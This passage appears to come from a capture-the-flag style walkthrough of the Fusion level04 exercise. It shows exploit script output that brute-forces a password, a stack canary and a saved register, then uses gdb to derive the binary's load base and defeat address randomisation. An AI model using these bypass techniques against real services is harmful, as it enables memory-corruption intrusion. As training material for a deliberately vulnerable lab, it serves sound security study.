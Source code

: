 Script output:

```lang-bash line-numbers 
fusion@fusion:~$ python fusion04.py
[+] Bruteforcing password ...
[+] Eureka W5AbnpNbWfM1586i
[+] Validating password ...
[+] Server response HTTP/1.0 200 Ok
[+] Searching Canary offset. Starting with 2000 ...
[+] Server response *** stack smashing detected ***: /opt/fusion/bin/level04 terminated
[+] Canary offset: 2026
[+] Bruteforcing Canary ...
[+] Found canary byte: 0x0
[+] Found canary byte: 0xce
[+] Found canary byte: 0x76
[+] Found canary byte: 0x13
[+] Canary found: 00ce7613
[+] Bruteforcing EBX ...
[+] Found EBX byte: 0x18
[+] Found EBX byte: 0x11
[+] Found EBX byte: 0x86
[+] Found EBX byte: 0xb7
[+] EBX found: 181186b7
```

Now that we know **ebx** we need to find out the binary load base. We said that ebx = base + offset. Lets use gdb to fid out the value of this offset:

```lang-bash line-numbers 
(gdb) info proc stat
...
Start of text: 0xb785d000
End of text: 0xb7860ad0
Start of stack: 0xbfca0dd0
```

offset = ebx - 0xb785d000

In our previous run ebx was 0xb7861118 so offset is 0x4118:

```lang-bash line-numbers 
(gdb) i r $ebx
ebx            0xb7861118
(gdb) p /x $ebx-0x4118
$1 = 0xb785d000
```

Now kill the server and restart it so that we can run the exploit again and verify that our leaked **ebx** - **0x4118** points to .text:

```lang-bash line-numbers 
(gdb) i r $ebx
ebx            0xb77a9118
(gdb) p /x $ebx-0x4118
$2 = 0xb77a5000
(gdb) info proc stat
...
...
Start of text: 0xb77a5000
End of text: 0xb77a8ad0
Start of stack: 0xbfecd200
```
